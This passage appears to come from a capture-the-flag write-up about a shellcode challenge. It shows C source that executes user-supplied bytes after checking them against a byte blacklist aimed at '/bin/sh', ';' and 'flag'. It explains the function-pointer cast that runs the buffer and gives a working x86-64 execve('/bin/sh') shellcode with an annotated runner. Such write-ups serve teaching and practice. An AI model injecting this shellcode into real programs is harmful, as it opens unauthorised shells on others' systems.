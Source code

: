 ```c

int main(){
    char buf[62];
    char blacklist[] = "\\x3b\\x54\\x62\\x69\\x6e\\x73\\x68\\xf6\\xd2\\xc0\\x5f\\xc9\\x66\\x6c\\x61\\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");

    int size = read(0, buf, 60);

    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

In the main function, we can see that there is a blacklist here:

```c
char blacklist[] = "\\x3b\\x54\\x62\\x69\\x6e\\x73\\x68\\xf6\\xd2\\xc0\\x5f\\xc9\\x66\\x6c\\x61\\x67";

```

At the end of the code, we encounter the statement:

```c
((void (*)()) buf)();

```

This line performs two critical operations in a single step. First, it casts the `buf` variable to a function pointer of type `void (*)()`. This specific type indicates a function that takes no arguments and returns nothing (a void function). Second, it immediately invokes the function pointer, effectively executing the machine code that resides in the memory buffer `buf`.

This technique is commonly used in exploit development to execute `shellcode`. The `buf` buffer is typically loaded with malicious machine code (the `shellcode`), and casting it to a function pointer allows the program to treat the buffer as if it were a legitimate function. This bypasses the need for explicit code injection, instead leveraging the memory space already allocated for `buf`.

For example this might be look like this:

```c
#include <stdio.h>
#include <string.h>

char shellcode[] =
    "\\x48\\x31\\xc0"             // xor rax, rax
    "\\x48\\x89\\xc2"             // mov rdx, rax
    "\\x48\\x89\\xc6"             // mov rsi, rax
    "\\xb0\\x3b"                 // mov al, 0x3b
    "\\x48\\x8d\\x3d\\x04\\x00\\x00" // lea rdi, [rip+4]
    "\\x00\\x0f\\x05"             // syscall
    "/bin/sh";

int main() {
    void (*func)() = (void (*)())shellcode;
    func(); // Executes the shellcode
    return 0;
}
```